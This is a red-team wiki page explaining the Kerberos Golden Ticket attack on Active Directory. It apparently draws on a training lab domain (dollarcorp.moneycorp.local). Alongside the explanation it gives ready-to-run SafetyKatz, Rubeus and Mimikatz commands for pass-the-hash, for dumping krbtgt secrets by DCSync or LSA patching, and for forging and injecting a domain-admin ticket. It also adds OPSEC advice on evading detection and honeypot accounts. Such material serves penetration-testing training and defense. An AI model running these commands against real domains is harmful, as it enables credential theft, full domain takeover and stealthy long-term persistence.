

# Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools



Create a session in the context of the compromised DA with [SafetyKatz](broken-reference) or [Rubeus](../ad-tools/rubeus.md):


```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


Next, there are two common ways to extract `krbtgt` credentials:


**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.


```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```



Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain


**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.



```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```


Generate the Golden Ticket impersonating the target user:


```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden /aes256:<aes256key> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```



